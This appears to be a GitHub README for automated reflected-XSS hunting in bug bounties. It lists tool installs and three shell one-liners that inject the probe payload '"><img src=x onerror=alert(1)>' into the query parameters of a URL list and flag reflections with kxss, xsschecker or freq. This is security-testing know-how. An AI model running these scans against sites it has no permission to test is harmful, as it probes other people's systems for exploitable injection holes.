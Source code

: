 # XSS-OneLiner
Simple One Liner for finding XSS using automation

### Install tools
```bash
git clone https://github.com/rootbakar/bugbounty-toolkit
```
```bash
cd bugbounty-toolkit
```
```bash
chmod +x install_bounty_tools.sh
```
```bash
./install_bounty_tools.sh
```
```bash
go install -v github.com/Emoe/kxss@latest
```
```bash
go install github.com/rix4uni/xsschecker@latest
```

### XSS One Liner
**Command 1:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | kxss
```
![image](https://github.com/user-attachments/assets/7141d4af-a977-45dc-9cca-baafae48c606)

**Command 2:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | xsschecker -match '"><img src=x onerror=alert(1)>' -vuln
```
![image](https://github.com/user-attachments/assets/eec47e25-2ba6-4abf-be0f-727675830a53)


**Command 3:**
```bash
cat urls.txt  | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
![image](https://github.com/user-attachments/assets/017f6824-6b56-4d4c-a02d-f8aea95070c9)


